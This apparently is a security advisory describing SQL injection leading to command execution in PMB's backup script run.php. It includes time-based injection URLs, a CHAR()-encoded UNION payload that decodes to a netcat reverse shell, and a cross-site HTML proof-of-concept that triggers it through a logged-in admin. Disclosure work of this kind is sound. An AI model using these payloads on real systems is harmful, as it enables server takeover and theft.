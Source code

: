 Note that the SQL query is attacker-controlled, because it's possible to modify the **$sauvegardes** variable by sending an array via a GET parameter that is added to the PHP global variables.
To verify the existence of this vulnerability, a time-based SQL injection technique can be used. 

```text
Sleep for 30 seconds:
http://host/pmb/admin/sauvegarde/run.php?sauvegardes[0]=99999%20or%20sleep(30)--%20-

Sleep for 5 seconds:
http://host/pmb/admin/sauvegarde/run.php?sauvegardes[0]=99999%20or%20sleep(5)--%20-
```

Afterwards, in the following code section (lines 118-129), if compression is enabled ($res->sauv_sauvegarde_compress equals 1), the script executes the compression commands obtained from the result of the previously mentioned query.

```php
/admin/sauvegarde/run.php
118  if ($res->sauv_sauvegarde_compress==1) {
119    fwrite($fe,"#Compress commands : ".$res->sauv_sauvegarde_compress_command."\r\n");
120    $command=explode(":",$res->sauv_sauvegarde_compress_command);
121
122    switch ($command[0]) {
123      case 'external':
124        $c_command=str_replace("%s","../../admin/backup/backups/".$temp_file,$command[1]);
125        exec($c_command);
126        @unlink("../../admin/backup/backups/".$temp_file);
127        $temp_file="../../admin/backup/backups/".$temp_file.".".$command[3];
128        if (!file_exists($temp_file)) abort("Compression failed",$logid);
129          break;
```

Since the SQL query is attacker-controlled, as previously stated, manipulation of the selected **sauv_sauvegarde_compress_command** column value can be achieved by using a UNION clause to execute an arbitrary external command (e.g., **external:ping example.com**).

![image](https://github.com/user-attachments/assets/93d81f7e-349e-40eb-8234-f111d77c57de)

The following payload injects a command to send a reverse shell to 127.0.0.1 on port 443.

```sql
http://host/pmb/admin/sauvegarde/run.php?sauvegardes[0]=9999%20or%201=1%20union%20select%201,1,1,1,GROUP_CONCAT(CHAR(101,120,116,101,114,110,97,108,58,114,109,32,45,102,32,47,116,109,112,47,102,59,109,107,102,105,102,111,32,47,116,109,112,47,102,59,99,97,116,32,47,116,109,112,47,102,124,47,98,105,110,47,115,104,32,45,105,32,50,62,38,49,124,110,99,32,49,50,55,46,48,46,48,46,49,32,52,52,51,32,62,47,116,109,112,47,102)),1%20LIMIT%201,1
```

Additionally, this vulnerability can be triggered when an authenticated user accesses a cross-site page (e.g. attacker.com/poc.html) that includes, for example, the following JavaScript code.
```html
<html>
<body>Cross-site trigger POC</body>
<script>
document.location = 'http://<host>/pmb/admin/sauvegarde/run.php?sauvegardes[0]=9999%20or%201=1%20union%20select%201,1,1,1,GROUP_CONCAT(CHAR(101,120,116,101,114,110,97,108,58,114,109,32,45,102,32,47,116,109,112,47,102,59,109,107,102,105,102,111,32,47,116,109,112,47,102,59,99,97,116,32,47,116,109,112,47,102,124,47,98,105,110,47,115,104,32,45,105,32,50,62,38,49,124,110,99,32,49,50,55,46,48,46,48,46,49,32,52,52,51,32,62,47,116,109,112,47,102)),1%20LIMIT%201,1';
</script>
</html>
```
